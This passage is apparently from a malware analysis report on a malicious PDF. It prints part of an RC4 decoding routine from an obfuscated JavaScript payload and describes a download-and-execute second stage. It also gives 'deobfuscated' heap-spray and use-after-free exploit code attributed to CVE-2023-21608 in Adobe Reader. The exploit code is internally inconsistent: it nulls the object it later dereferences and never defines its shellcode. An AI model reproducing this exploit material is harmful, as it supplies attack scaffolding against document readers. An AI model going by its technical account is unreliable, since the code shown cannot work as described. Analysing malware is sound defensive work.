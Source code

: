 ```
        s[i] = s[j];
        s[j] = x;
    }
    i = 0;
    j = 0;
    for (var y = 0; y < str.length; y++) {
        i = (i + 1) % 256;
        j = (j + s[i]) % 256;
        x = s[i];
        s[i] = s[j];
        s[j] = x;
        res += String[_0x7a9e[1]](str[_0x7a9e[0]](y) ^ s[(s[i] + s[j]) % 256]);
    }
    return res;
}
// [TRUNCATED FOR BREVITY]
```

The JavaScript is heavily obfuscated using several techniques:
1. Array-based obfuscation with the `_0x7a9e` array
2. RC4 encryption for the actual payload
3. String concatenation and character code manipulation

After deobfuscation, the JavaScript reveals a two-stage payload:

1. **Stage 1**: Exploits CVE-2023-21608 by triggering a use-after-free condition in Adobe Reader's JavaScript engine
2. **Stage 2**: Executes shellcode that downloads and executes the final payload

### 2.3 Vulnerability Exploitation (CVE-2023-21608)

The exploit targets a use-after-free vulnerability in Adobe Reader's JavaScript engine. The vulnerability occurs when processing certain JavaScript objects after they have been freed from memory. The exploit code:

1. Creates a large number of JavaScript objects to manipulate the heap layout
2. Frees a specific object but maintains a reference to it
3. Allocates new objects that occupy the freed memory space
4. Accesses the freed object to achieve arbitrary code execution

The relevant exploit code (deobfuscated):

```javascript
// Create array of objects for heap spray
var objArray = new Array(1000);
for (var i = 0; i < objArray.length; i++) {
    objArray[i] = new Object();
    objArray[i].prop = new String("A".repeat(248));
}

// Create target object
var target = new Object();
target.prop = new String("BBBB");

// Free the target object but maintain reference
delete target.prop;
target = null;
this.collectGarbage();

// Allocate new objects to occupy freed memory
var replacement = unescape("%u4141%u4141%u4242%u4242%u4343%u4343");
var heapSpray = unescape("%u9090%u9090"); // NOP sled
heapSpray += shellcode;  // Shellcode payload

// Trigger the vulnerability
target.prop.toString();  // Access freed memory
```